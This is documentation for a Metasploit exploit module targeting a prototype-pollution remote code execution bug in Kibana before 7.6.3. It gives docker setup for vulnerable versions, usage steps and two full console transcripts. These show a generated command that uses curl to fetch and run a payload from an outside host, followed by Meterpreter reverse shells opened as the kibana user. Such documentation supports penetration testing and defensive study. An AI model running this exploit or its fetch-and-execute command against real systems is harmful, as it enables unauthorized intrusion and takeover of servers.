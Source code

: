 ## Vulnerable Application

Kibana before version 7.6.3 suffers from a prototype pollution bug within the
Upgrade Assistant. By setting a new constructor.prototype.sourceURL value we're
able to execute arbitrary code.
Code execution is possible through two different ways. Either by sending data
directly to Elastic, or using Kibana to submit the same queries. Either method
enters the polluted prototype for Kibana to read.

Kibana will either need to be restarted, or collection happens (unknown time) for
the payload to execute. Once it does, cleanup must delete the .kibana_1 index
for Kibana to restart successfully. Once a callback does occur, cleanup will
happen allowing Kibana to be successfully restarted on next attempt.

### Install

A docker version of Kibana and Elastic are required. Both can be run together in a working mode via:

```
docker run -d --name es01 -e "discovery.type=single-node" -p 9200:9200 docker.elastic.co/elasticsearch/elasticsearch:7.6.2
docker run -d --name kib01 --link es01:elasticsearch -p 5601:5601 docker.elastic.co/kibana/kibana:7.6.2
```

To restart Kibana (easier during exploitation) issue the following command: `docker kill kib01; docker start kib01`

To wipe the boxes: `docker kill kib01; docker kill es01; docker container rm es01; docker container rm kib01`

### Error Logs

The following error logs will appear when the payload executes. The logs seem to repeat about every half second.

```
 error  [11:59:41.805] [warning][process] UnhandledPromiseRejectionWarning: TypeError: this._tasks[taskName] is not a function
    at Timeout._interval.setInterval [as _onTimeout] (/usr/share/kibana/node_modules/oppsy/lib/index.js:42:49)
    at ontimeout (timers.js:436:11)
    at tryOnTimeout (timers.js:300:5)
    at listOnTimeout (timers.js:263:5)
    at Timer.processTimers (timers.js:223:10)
    at emitWarning (internal/process/promises.js:97:15)
    at emitPromiseRejectionWarnings (internal/process/promises.js:143:7)
    at process._tickCallback (internal/process/next_tick.js:69:34)
 error  [11:59:41.807] [warning][process] TypeError: this._tasks[taskName] is not a function
    at Timeout._interval.setInterval [as _onTimeout] (/usr/share/kibana/node_modules/oppsy/lib/index.js:42:49)
    at ontimeout (timers.js:436:11)
    at tryOnTimeout (timers.js:300:5)
    at listOnTimeout (timers.js:263:5)
    at Timer.processTimers (timers.js:223:10)
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use use exploit/linux/http/kibana_upgrade_assistant_telemetry_rce`
1. Do: `set rhost [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell as the kibana user.

## Options

## Scenarios

### Kibana 7.6.2 on Docker (Elastic Target)

In this scenario, the cleanup process within Kibana kicked automatically, so no reboot of the host/service was required.

```
[*] Processing kibana_telem.rb for ERB directives.
resource (kibana_telem.rb)> use exploit/linux/http/kibana_upgrade_assistant_telemetry_rce
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
resource (kibana_telem.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (kibana_telem.rb)> set rport 9200
rport => 9200
resource (kibana_telem.rb)> set verbose true
verbose => true
resource (kibana_telem.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > 
msf6 exploit(linux/http/kibana_upgrade_assi
stant_telemetry_rce) > rexploit
[*] Reloading module...

[*] Command to run on remote host: curl -so ./YFjALImGlTI http://1.1.1.1:8080/Hg3DGEu9GqlWD06kh4AzFg; chmod +x ./YFjALImGlTI; ./YFjALImGlTI &
[*] Fetch Handler listening on 1.1.1.1:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Creating index
[*] Index already exists
[*] Sending index map
[*] Sending telemetry data with payload
[*] Waiting 1800 seconds for shell (kibana restart/cleanup)
[*] Client 172.17.0.3 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 172.17.0.3 (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 172.17.0.3:48674) at 2023-10-06 08:32:42 -0400
[*] Removing telemetry data to prevent Kibana locking on restart

meterpreter > getuid
Server username: kibana
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : CentOS 7.7.1908 (Linux 6.5.0-kali2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Kibana 7.6.2 on Docker (Kibana Target)

```
[*] Processing kibana_telem.rb for ERB directives.
resource (kibana_telem.rb)> use exploit/linux/http/kibana_upgrade_assistant_telemetry_rce
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
resource (kibana_telem.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (kibana_telem.rb)> set rport 9200
rport => 9200
resource (kibana_telem.rb)> set verbose true
verbose => true
resource (kibana_telem.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > set target 1
target => 1
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > set rport 5601
rport => 5601
msf6 exploit(linux/http/kibana_upgrade_assistant_telemetry_rce) > exploit

[*] Command to run on remote host: curl -so ./hzeCuLxAxx http://1.1.1.1:8080/Hg3DGEu9GqlWD06kh4AzFg; chmod +x ./hzeCuLxAxx; ./hzeCuLxAxx &
[*] Fetch Handler listening on 1.1.1.1:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Creating index
[*] Index already exists
[*] Sending index map
[*] Sending telemetry data with payload
[*] Waiting 1800 seconds for shell (kibana restart/cleanup)
```

After several minutes, the host was rebooted instead of waiting for the cleanup process to happen. Docker host reboot was done
with the following command if daemonized: `docker kill kib01; docker start kib01`

```
[*] Client 172.17.0.3 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 172.17.0.3 (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 172.17.0.3:60508) at 2023-10-06 09:48:43 -0400
[-] Cleanup must happen on the Elastic Database for Kibana to start. You need to DELETE /.kibana_1

meterpreter > getuid
Server username: kibana
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : CentOS 7.7.1908 (Linux 6.5.0-kali2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
